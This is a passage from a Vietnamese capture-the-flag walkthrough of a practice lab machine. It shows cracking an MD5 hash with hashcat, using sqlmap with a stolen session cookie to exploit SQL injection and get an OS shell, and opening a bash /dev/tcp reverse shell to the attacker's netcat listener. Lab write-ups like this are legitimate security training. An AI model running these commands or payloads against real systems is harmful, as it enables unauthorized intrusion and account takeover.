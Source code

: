 ```
echo ‘2cb42f8734ea607eefed3b70af13bbd3’ > hashpass
hashcat -a 0 -m 0 hashpass /usr/share/wordlists/rockyou.txt
```
######	-a 0: chọn mode attack, ở đây 0 là sử dụng một danh sách từ có sẵn (rockyou.txt)
######	-m 0: chọn type của hash, 0 là MD5
######	hashpass: file để attack
######	/usr/share/wordlists/rockyou.txt: file chứa danh sách từ để attack
##### + Lấy được password là *qwerty789*
##### + Thử truy cập lại vào trang web login -> vào được.
##### + Trang web không có gì đặc biệt, trừ thanh công cụ search khi tìm kiếm sẽ hiện trên thanh URL: 
` 10.129.195.218/dashboard.php?search=zeus `
##### -> Lỗ hổng SQL Injection.

### 3. Tấn công lỗ hổng:
#### 3.1 SQL Injection trang web:
##### + Sử dụng tool _sqlmap_, môt công cụ sql injection tự động.
##### + Vì sqlmap yêu cầu cả URL và cookie của target, nên sẽ lấy cookie:
###### Yêu cầu cookie vì nó thể hiện trạng thái thông tin về người dùng khi tương tác với website, khiến yêu cầu của người dùng hợp lệ, trong trường hợp này là sql injection biến search.
##### + Cài extension _cookie-editor_, một extension cho cookie chuyên dụng.
##### + Sau khi lấy được cookies, sử dụng sqlmap để kiểm tra xem trang web có lỗ hổng sql injection không.
` sqlmap -u ‘http://10.129.195.218/dashboard.php?search=any+query’ --cookie=”PHPSESSID=t5r0jg65lsnmg7d5qlqis9gbuh” `
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/d6725adb-26e4-4e66-894f-7e1ae454d151)
##### => trường *search* của trang web có sql injection.
##### + Chạy lệnh trên một lần nữa và kèm sau cuois là flag `--os-shell` để khởi tạo terminal:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/7b8762cc-a73e-4ec5-9ac4-f293a5af413a)
#### 3.2 Reverse shell target:
##### + Như mọi lần shell mặc định của các tool thường kết nối không ổn định mà chỉ được sử dụng để reverse shell.
##### + Bật netcat: `sudo nc -lvnp 443`
##### + Sử dụng payload: `bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1”` trên shell của sqlmap.
##### + Quay về bên netcat ta sẽ được như sau: 
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/04e4dc0a-d7e4-4df7-9123-3d81959d60e7)
##### + Như vậy đã reverse shell thành công giờ để làm shell mang tinh tương tác cao, sử dụng lệnh sau: 
```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
stty raw -echo
export TERM=xterm
```
##### + Kiểm tra người dùng vừa chiếm quyền với lệnh `whoami` -> user tên *postgres*